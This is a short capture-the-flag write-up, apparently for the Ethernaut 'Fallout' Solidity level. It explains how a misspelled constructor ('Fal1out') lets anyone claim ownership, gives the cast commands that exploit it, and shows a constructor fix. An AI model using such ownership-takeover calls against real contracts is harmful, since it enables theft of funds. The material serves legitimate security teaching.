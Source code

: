 # Fallout

Claim ownership of the contract.

## Vulnerability

In Solidity, the constructor function is a special function that is executed only once when the contract is deployed. It is typically used to initialize state variables. The name of the constructor function should be the same as the name of the contract. In your case, the contract name is `Fallout` but the constructor function is named `Fal1out`.

This mismatch means that `Fal1out` is not a constructor function but a regular public function that can be called by anyone. This allows anyone to take ownership of the contract by calling the `Fal1out` function.

## Attack

```bash
1. await contract.address
2. # await contract.owner()
   cast call $CONTRACT_ADDRESS "owner()" --rpc-url $ALCHEMY_RPC_URL
3. cast send $CONTRACT_ADDRESS "Fal1out()" --value 0.000000000000000001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL
```

## Fix

```javascript
* constructor */
constructor() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
}
```
